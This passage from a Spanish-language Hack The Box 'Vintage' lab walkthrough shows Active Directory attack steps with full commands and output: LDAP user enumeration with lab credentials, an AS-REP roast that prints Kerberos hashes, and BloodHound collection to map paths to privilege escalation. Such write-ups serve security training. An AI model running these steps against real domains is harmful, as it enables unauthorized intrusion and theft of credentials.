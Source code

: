~~~ bash
ldapsearch -H ldap://10.10.11.45 -D 'P.Rosa@vintage.htb' -w 'Rosaisbest123' -b 'DC=vintage,DC=htb' "(objectClass=user)" sAMAccountName | grep sAMAccountName | awk '{print $2}' FS=': ' | grep -v "sAMAccountName" > users.txt
~~~


## (Posible) AS-REP Roast

Es posible intentar hacer este ataque ya que si consultamos un TGT para el listado de usuarios, obtendremos los de `svc_sql` y `svc_ark`

~~~ bash
GetNPUsers.py vintage.htb/ -usersfile users.txt    

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

$krb5asrep$23$svc_ldap@VINTAGE.HTB:be43c37b2957df71308b8fb9257a96ee$e70374fae2e38740139859c17756daf8003830e9b7955096060491b361c88baaea2c50de2d3aa1847c711a5a4cd57f0ef3b9333d8b649ce529437813ae66722f95986ac006f83c93b81913d1e2fe0fde993f234cd1175832ab86770dbfb749fcbe2d8b1fa52f162041733e243abeec40dade36af9b66496a584805f62e15edcca3a572ace12ca223f0ca11f18390ca7a7c5883f00fa964f0f4abf23e9569b1208ba494228857e50a77009254721ec581b31f2df04fa10040fc067a2570607ec6fc40468cbeb274dfa7624b4e8b38a2b664f2d88dc2f8d6552f203f94811821d647609477f5a3e9fa7d4d
$krb5asrep$23$svc_ark@VINTAGE.HTB:28297959627842dc77ac662cde0103a7$bd13fb6b981cecb0c4053425ae0d5e1c1667eb3889e5b293126eb8b3b11da2bbf61810b750e6d272b07cbbe5390823fc966f314617888924b26a1923acfbbb90673283f0fcbb4bad05e2aa5a1fb96ebae41d86fd0d0bc0b973e271d9127ab0ba4f98b4d3a3d704faf9fd1fca6d8fae0782994d70c23ff0e97953398f9b99ce5897ef4a9e94aa8ac34915c7fef20122c086814876e080f3c2964be39f2b6620c61edba5797ed2b309dfb6775958e482bf96a50ebc30615593f656fc71215b8463d8e13dd5e0d79f2d221ee17912e5daa971c4dcb2c5abdee572567508521f480b5373f0cca57e91b533a3
~~~

Si intentamos crackear estos hashes, no podremos debido a que muy probablemente  estas cuentas poseen una contraseña robusta o son cuentas `gMSA` (Group Managed Service Accounts) o similar


## DC Enumeration - BloodHound Analysis

Recolectaremos información del dominio para representarla en `bloodhound`, así podremos identificar vías potenciales para escalar privilegios

~~~ bash
bloodhound-python -d vintage.htb -c All -ns 10.10.11.45 --zip -u 'P.Rosa' -p 'Rosaisbest123'
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The resolution lifetime expired after 3.102 seconds: Server Do53:10.10.11.45@53 answered The DNS operation timed out.
INFO: Done in 00M 42S
INFO: Compressing output into 20250321133254_bloodhound.zip

# Iniciamos la bsae de datos de grafos y bloodhound
sudo neo4j console
~~~